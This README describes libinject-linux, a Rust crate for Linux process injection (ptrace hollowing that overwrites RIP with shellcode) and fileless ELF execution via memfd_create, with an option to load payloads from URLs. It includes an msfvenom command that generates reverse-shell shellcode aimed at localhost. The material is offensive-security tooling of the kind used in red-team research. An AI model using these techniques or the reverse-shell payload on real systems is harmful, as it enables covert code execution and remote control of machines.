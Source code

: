 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
### Library
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

### Library examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Run the `memfd` example
```bash
cargo run --example memfd
```

To run the `hollow` example, first `cd libinject-linux/examples` and then
```bash
cargo run --example hollow
```

The example shellcode was generated using the following command
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

### Standalone Binary
TODO: Write docs for standalone binary.
